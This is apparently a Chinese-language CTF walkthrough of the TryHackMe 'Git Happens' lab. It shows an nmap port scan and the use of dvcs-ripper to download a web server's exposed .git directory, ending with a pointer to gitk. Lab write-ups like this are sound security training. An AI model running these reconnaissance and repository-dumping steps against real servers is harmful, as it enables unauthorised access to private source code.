 ```yaml
---
sidebar_position: 29
tags: [Easy, Linux, Git]
title: Git Happens
description: Git Happens
sidebar_label: Git Happens
slug: /tryhackme/29
---
```

# Git Happens
## 端口扫描
```bash
root@ip-10-10-85-216:~# nmap -sT -p- --min-rate 1000 10.10.119.199 

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-21 16:44 BST
Nmap scan report for ip-10-10-119-199.eu-west-1.compute.internal (10.10.119.199)
Host is up (0.035s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:9C:75:54:17:8F (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 9.33 seconds
```
## 80 - HTTP
根据题目我们知道这是查看 Git 泄露的我们下载对应的工具进行 [dvcs-ripper](https://github.com/kost/dvcs-ripper) 进行下载源码即可
```bash
root@ip-10-10-85-216:~/git# ./rip-git.pl  -v -u  http://10.10.119.199/.git/
[i] Downloading git files from http://10.10.119.199/.git/
[i] Auto-detecting 404 as 200 with 3 requests
[i] Getting correct 404 responses
[i] Using session name: FgQAfNPs
[!] Not found for COMMIT_EDITMSG: 404 Not Found
[d] found config
[d] found description
[d] found HEAD
[d] found index
[d] found packed-refs
[!] Not found for objects/info/alternates: 404 Not Found
[!] Not found for info/grafts: 404 Not Found
[d] found logs/HEAD
......
[i] Got items with git fsck: 0, Items fetched: 0
[!] No more items to fetch. That's it!
root@ip-10-10-85-216:~/git# ls
css  dashboard.html  default.conf  Dockerfile  index.html  README.md  rip-git.pl
```
使用 gitk 工具进行查看

![20240601182701](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240601182701.png)